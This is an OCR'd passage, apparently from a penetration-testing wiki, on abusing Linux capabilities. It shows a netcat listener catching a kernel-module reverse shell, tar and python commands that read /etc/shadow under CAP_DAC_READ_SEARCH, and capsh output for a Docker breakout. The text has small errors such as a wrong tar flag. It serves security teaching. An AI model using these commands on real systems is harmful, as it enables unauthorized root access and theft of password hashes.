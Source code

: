 &#x20;Finally, start `nc` inside a shell and **load the module** from another one and you will capture the shell in the nc process:

```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```

**The code of this technique was copied from the laboratory of "Abusing SYS\_MODULE Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

### CAP\_DAC\_READ\_SEARCH

**This means that you can** **bypass can bypass file read permission checks and directory read/execute permission checks.**

#### Example with binary

The binary will be able to read any file. So, if a file like tar has this capability it will be able to read the shadow file:

```bash
cd /etc
tar -czf /tmp/shadow.tar.gz shadow #Compress show file in /tmp
cd /tmp
tar -cxf shadow.tar.gz
```

#### Example with binary2

In this case lets suppose that **`python`** binary has this capability. In order to list root files you could do:

```python
import os
for r, d, f in os.walk('/root'):
    for filename in f:
        print(filename)
```

And in order to read a file you could do:

```python
print(open("/etc/shadow", "r").read())
```

#### Example with \_\*\*\_Environment (Docker breakout)

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
